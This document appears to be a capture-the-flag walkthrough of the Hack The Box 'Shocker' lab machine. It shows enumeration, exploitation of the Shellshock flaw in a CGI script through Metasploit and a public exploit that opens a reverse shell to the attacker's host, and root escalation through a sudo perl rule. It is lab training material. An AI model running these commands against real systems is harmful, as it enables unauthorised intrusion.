

Target: 10.10.10.56

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.56

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 22:22 PDT
Nmap scan report for 10.10.10.56
Host is up (0.61s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```
$ gobuster dir -u http://10.10.10.56 -w /usr/share/dirb/wordlists/small.txt 

/cgi-bin/             (Status: 403) [Size: 294]
```

gobuster
```
$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/dirb/wordlists/small.txt -x sh,pl,py

/user.sh              (Status: 200) [Size: 125]
```

checking 10.10.10.56



testing for shellshock vulnerability
```
$ nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

Starting Nmap 7.91 ( https://nmap.org ) at 22021-05-19 22:50 PDT
Nmap scan report for 10.10.10.56
Host is up (0.12s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
```

### Findings:Looking for attack vectors

Exploit vulnerable Apache service using shellshock.


## Foothold:

### With Meterpreter

searching for shellshock apache exploits
```
search shellshock apache

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_mod_cgi_bash_env_exec  2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   1  auxiliary/scanner/http/apache_mod_cgi_bash_env   2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner


use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set LPORT tun0
set /cgi-bin/user.sh
run
```

establishing a shell
```
meterpreter > shell
```

### Without Meterpreter

searching for shellshock apache exploits
```
$ searchsploit shellshock apache                             
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Apache mod_cgi - 'Shellshock' Remote Command Injection                           | linux/remote/34900.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

copying exploit to cwd
```
$ searchsploit -m linux/remote/34900.py
```

running the exploit
```
$ ./34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.33 lport=9002 pages=/cgi-bin/user.sh

[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56

10.10.10.56> 
```


upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
shelly@Shocker:~$ id

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

```
cat user.txt

<redacted>
```


## Priv Escalations:

enumerating sudo privs
```
shelly@Shocker:~$ sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

exploiting sudo privs
```
shelly@Shocker:~$ sudo perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

```
# cat /root/root.txt

<redacted>
```
